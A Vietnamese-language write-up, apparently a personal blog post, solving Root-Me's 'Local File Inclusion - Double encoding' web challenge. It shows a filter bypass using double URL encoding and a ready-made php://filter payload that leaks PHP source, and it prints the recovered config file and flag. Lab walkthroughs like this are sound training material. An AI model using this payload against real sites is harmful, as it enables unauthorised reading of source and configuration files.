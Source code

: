 ```yaml
---
template: overrides/blog.html
icon: material/plus-circle
title: Local File Inclusion - Double encoding
description: >
  
search:
  exclude: true
hide:
  - feedback

tags:
    - PHP
    - Path Traversal
---
```


# __Local File Inclusion - Double encoding__

<span>
:octicons-calendar-24: May 09, 2023

</span>

---


## __Tài nguyên và link challenge__

Tài nguyên của challenge này tại [https://www.root-me.org/en/Challenges/Web-Server/Local-File-Inclusion-Double-encoding](https://www.root-me.org/en/Challenges/Web-Server/Local-File-Inclusion-Double-encoding)

Link challenge này tại [:octicons-arrow-right-24: http://challenge01.root-me.org/web-serveur/ch43/][http://challenge01.root-me.org/web-serveur/ch43/]

  [http://challenge01.root-me.org/web-serveur/ch43/]: http://challenge01.root-me.org/web-serveur/ch43/

## __Tổng quan__

Trong challenge này, mục tiêu của ta là lấy được password xác thực từ source files trên website.

## __Kịch bản tấn công__
### Bước 1: Kiểm tra website

Đầu tiên ta xem xét website và thực hiện vài câu truy vấn, ta tiêm thử ../admin thì bị hệ thống phát hiện attack
<figure markdown>
  ![Image title](/rootme/web-server/php/images/local_file_inclusion_double_encoding-01.png#zoom)
  <figcaption>Hình ảnh website challenge</figcaption>
</figure>

Tới đây ta nghĩ rằng website đã filter "../", "./",... và nhiều thứ khác. Ta tiến hành dùng HTTP Encoding theo cách thông thường (. == %2E, / == %2F) thì vẫn không khả thi. Với challenge này, rootme đã cung cấp cho ta trang [owasp](https://owasp.org/www-community/Double_Encoding) này nói luôn về double encoding và cho ta mã hóa kép của "." là `%252E`; mã hóa kép của "/" là `%252F`. Tương tự:

- Kí tự : được mã thành %253A

- Kí tự - được mã thành %252D

- Kí tự = được mã thành %253D

### Bước 2: Khai thác website

Tiếp tục việc dạo quanh trên mạng, ta biết được để xem source file php ở trang home thì dùng filter bằng cú pháp `php://filter/convert.base64-encode/resource=home`

Double encoding mã trên ta được `php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dhome`

<figure markdown>
  ![Image title](/rootme/web-server/php/images/local_file_inclusion_double_encoding-02.png#zoom)
  <figcaption>Hình ảnh mô tả việc tiêm Path vào url</figcaption>
</figure>

Ta nhận được thông điệp là một chuỗi base64, tiến hành decode bằng [Base64 decoding][https://www.base64decode.org/] ta được đoạn code php như sau

<div class="result" markdown>

``` php linenums="1" hl_lines="1"
<?php include("conf.inc.php"); ?>
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>J. Smith - Home</title>
  </head>
  <body>
    <?= $conf['global_style'] ?>
    <nav>
      <a href="index.php?page=home" class="active">Home</a>
      <a href="index.php?page=cv">CV</a>
      <a href="index.php?page=contact">Contact</a>
    </nav>
    <div id="main">
      <?= $conf['home'] ?>
    </div>
  </body>
</html>
```

</div>

Ta thấy đoạn code trên có include conf.inc.php, tiến hành xem file, ta được flag

<div class="result" markdown>

``` php linenums="1" hl_lines="3"
<?php
  $conf = [
    "flag"        => "Th1sIsTh3Fl4g!",
    "home"        => '<h2>Welcome</h2>
    <div>Welcome on my personal website !</div>',
    "cv"          => [
      "gender"      => true,
      "birth"       => 441759600,
      "jobs"        => [
        [
          "title"     => "Coffee developer @Megaupload",
          "date"      => "01/2010"
        ],
        [
          "title"     => "Bed tester @YourMom's",
          "date"      => "03/2011"
        ],
        [
          "title"     => "Beer drinker @NearestBar",
          "date"      => "10/2014"
        ]
      ]
    ],
    "contact"       => [
      "firstname"     => "John",
      "lastname"      => "Smith",
      "phone"         => "01 33 71 00 01",
      "mail"          => "john.smith@thegame.com"
    ],
    "global_style"  => '<style media="screen">
      body{
        background: rgb(231, 231, 231);
        font-family: Tahoma,Verdana,Segoe,sans-serif;
        font-size: 14px;
      }
      div#main{
        padding: 20px 10px;
      }
      nav{
        border: 1px solid rgb(101, 101, 101);
        font-size: 0;
      }
      nav a{
        font-size: 14px;
        padding: 5px 10px;
        box-sizing: border-box;
        display: inline-block;
        text-decoration: none;
        color: #555;
      }
      nav a.active{
        color: #fff;
        background: rgb(119, 138, 144);
      }
      nav a:hover{
        color: #fff;
        background: rgb(119, 138, 144);
      }
      h2{
        margin-top:0;
      }
      </style>'
  ];
```

</div>


!!! success "__Flag__"
    Th1sIsTh3Fl4g!


[^1]: Đọc thêm tại [Local File Inclusion - Double encoding](https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Local%20File%20Inclusion.pdf?_gl=1*1t8353j*_ga*Nzc4MDU2MTY2LjE2ODI2OTQ4NDc.*_ga_SRYSKX09J7*MTY4MzU4NjE0Ni4zMi4xLjE2ODM1ODYxNDkuMC4wLjA.)